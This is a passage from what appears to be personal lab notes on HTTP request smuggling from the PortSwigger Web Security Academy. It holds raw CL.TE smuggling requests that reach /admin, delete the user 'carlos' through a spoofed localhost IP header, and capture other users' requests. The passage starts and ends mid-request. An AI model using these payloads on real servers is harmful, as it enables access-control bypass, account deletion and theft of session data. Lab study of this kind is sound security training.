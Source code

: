 Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

0

GET /admin HTTP/1.1
X-crOMsO-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1


```

```
POST / HTTP/1.1
Host: 0ac30098036b8604c0c2483400490034.web-security-academy.net
Cookie: session=tI9xKyfdWLbk7tv6skkxIYsEZMpzDrBZ
Content-Length: 144
Transfer-Encoding: chunked
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

0

GET /admin/delete?username=carlos HTTP/1.1
X-crOMsO-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1


```

### Exploiting HTTP request smuggling to capture other users' requests

Need to set content length of smuggled request to an appropriate value as that will determine how long the smuggled `/post/comment` request is and how much the comment attribute will capture

After sending the exploit, do not immediately attempt to access the web application as we want the victim to trigger our smuggled HTTP request and not ourself

```
POST / HTTP/1.1
Host: 0a13000003491c06c03209bf00b300f2.web-security-academy.net
Cookie: session=1BahIc3mvaIbwizp3NRi3V1a1taYhsDd
Cache-Control: max-age=0
Transfer-Encoding: chunked
Content-Length: 1119
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0